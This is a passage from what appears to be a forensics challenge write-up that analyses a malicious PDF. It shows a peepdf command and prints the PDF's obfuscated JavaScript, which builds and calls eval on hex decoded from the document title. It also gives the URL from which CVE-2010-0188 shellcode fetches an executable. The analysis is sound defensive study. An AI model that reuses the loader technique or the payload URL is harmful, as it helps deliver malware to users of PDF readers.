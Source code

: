 `py C:\peepdf\peepdf-master\peepdf.py -fi .\fcexploit.pdf`

Then I used `js_code 5` to analyze JavaScript code from fifth object.

```
var SSS = null;
var SS = "ev";
var $S = "";
$5 = "in";
app.doc.syncAnnotScan();
S$ = "ti";
if (app.plugIns.length != 0) {
    var $$ = 0;
    S$ += "tl";
    $5 += "fo";
    ____SSS = app.doc.getAnnots({
        nPage: 0
    });
    S$ += "e";
    $S = this.info.title;
}
var S5 = "";
if (app.plugIns.length > 3) {
    SS += "a";
    var arr = $S.split(/U_155bf62c9aU_7917ab39/);
    for (var $ = 1; $ < arr.length; $++) {
        S5 += String.fromCharCode("0x" + arr[$]);
    }
    SS += "l";
}
if (app.plugIns.length >= 2) {
    app[SS](S5);
}
```


## The PDF file contains another exploit related to CVE-2010-0188. What is the URL of the malicious executable that the shellcode associated with this exploit drop?
This could be found in Wireshark. After exporting HTTP objects, the filename `the_real_malware.exe` was visible, that it being tried to download in 59 packet with failure. the full URL was `http://blog.honeynet.org.my/forensic_challenge/the_real_malware.exe`

![10.png](./images/4.png)

## How many CVEs are included in the PDF file?